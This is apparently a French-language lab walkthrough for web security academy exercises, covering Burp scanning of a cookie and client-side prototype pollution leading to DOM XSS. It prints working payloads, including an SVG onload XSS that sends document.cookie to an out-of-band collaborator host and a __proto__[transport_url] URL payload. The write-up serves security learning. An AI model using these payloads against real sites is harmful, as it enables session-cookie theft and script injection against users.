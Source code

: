 ### Scanning non-standard data structures

Faire "Scan selected insertion point" sur le cookie, mais juste sa partie en clair. 

Exemple : Pour le cookie "Cookie: session=wiener%3a5Q8KOB7gmHMo57FPfWEhBrhrhMzizBfZ" il faudra juste sélectionner "wiener"

Une XSS est remontée.

Payload final : 

    '"><svg/onload=fetch(`//ng7fyjw2rmak9th3bn45idlfb6hx5tti.oastify.com/${encodeURIComponent(document.cookie)}`)>:a5Q8KOB7gmHMo57FPfWEhBrhrhMzizBfZ

## === Prototype pollution ===

### Client-side prototype pollution via browser APIs

#### Solution manuelle

TO DO

#### Solution avec DOM Invader

Lancer le navigateur intégré et activer DOM Invader.

Bien activer toutes les options de recherche, notamment "Prototype pollution" dans ce cas.

Deux vulnérabilités de type PP remontent.

Faire "Scan for gadgets" puis "Exploit" quand le sink remonte.

### DOM XSS via client-side prototype pollution

#### Solution manuelle

Remplacer la fin de l'URL ("...web-security-academy.net/?search=aaa") par "/?__proto__[foo]=bar" puis vérifier que le prototype a bien été pollué en passant par la console F12 avec "Object.prototype".

On voit bien un "Object { foo: "bar", … }" en résultat.

Une fois cette source trouvée, il faut chercher un gadget pour faire exécuter le code.

F12 => Débogueur => Sources => Voir les fichiers Javascript chargés par le site


Dnas le fichier **searchLogger.js**, on voit que l'objet "config" a une propriété "transport_url" qui sert à ajouter un script dynamiquement dans le DOM. Et on voit que l'objet "config" n'a pas de transport_url définie dans le cas présent, ce qui représente un gadget potentiel.

Pour tester cela, remplacer le payload initial par "?__proto__[transport_url]=abc" et vérifier le code source de la page. On a bien un "<script src="foo"></script>" apparu tout en bas.

Payload final :

    [URL]/?__proto__[transport_url]=data:,alert(1);
